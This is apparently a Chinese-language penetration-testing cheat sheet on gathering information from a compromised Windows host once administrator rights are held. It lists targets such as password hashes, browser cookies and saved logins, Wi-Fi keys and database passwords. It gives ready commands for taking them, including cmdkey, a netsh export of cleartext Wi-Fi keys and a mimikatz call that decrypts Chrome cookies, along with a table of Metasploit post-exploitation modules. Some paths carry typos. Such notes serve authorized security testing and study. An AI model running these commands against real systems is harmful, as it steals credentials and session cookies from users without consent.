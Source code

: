 ## windows主机信息收集

这里是在拿下最高权限之后的信息收集。

* 主要收集内容

>1. 系统管理员密码(hash->明文)
>2. 其他用户的session，3389，ipc连接记录以及各用户回收站信息收集
>3. 浏览器密码和cookies的获取
>4. windows无线密码获取
>5. 数据库密码获取
>6. host文件，dns缓存信息
>7. 杀毒软件，补丁，进程，网络代理信息
>8. 共享文件夹，web服务器配置文件等
>9. 计划任务，账号密码策略，锁定策略

### windows杂七杂八的信息收集

* 工具：mimikatz、wce、getpass、quarkspwdump、reg-sam、pwdump7等

1. cmdkey用于保存用户名和密码的凭证。
   + `cmdkey /list`查看凭据位置
   + netpass.exe获取密码

2. 回收站信息获取
   + 进入回收站文件夹`cd C:$RECYCLE.BIN`（该文件夹为隐藏文件夹，dir /ah查看内容，a指定属性h表示隐藏)

3. 获取无线密码
   + `netsh wlan export profile interface=WLAN key=clear folder=C:\`

4. 获取浏览器的cookie和存储密码(chrome)
   + `%localappdata%\google\chrome\USERDATA\default\cookies%localappdata%\googlelchrome\USERDATA\default\Login`
   + Datachrome的用户信息保存在本地文件为sqlite数据库格式
   + 使用mimikatz读取内容:
     `mimikatz.exe privilege:debug log "dpapi:chrome /in:%localappdata%google\chrome\USERDATA\default\cookies /unprotect"`

### msf下的windows信息收集


| 模块                                      | 使用                       |
| ----------------------------------------- | -------------------------- |
| post/windows/gather/forensics/enum_drives | 获取目标主机的磁盘分区情况 |
| post/windows/gather/checkvm               | 判断目标主机是否为虚拟机   |
| post/windows/gather/enum_services         | 查看开启的服务             |
| post/windows/gather/enum_applications     | 查看安装的应用             |
| post/windows/gather/enum_shares           | 查看共享                   |
| post/windows/gather/dumplinks             | 查看目标主机最近的操作     |
| post/windows/gather/enum_patches          | 查看补丁信息               |
| scraper                                   | 导出多个信息               |
| use or run模块，设置参数后expoilt         |                            |
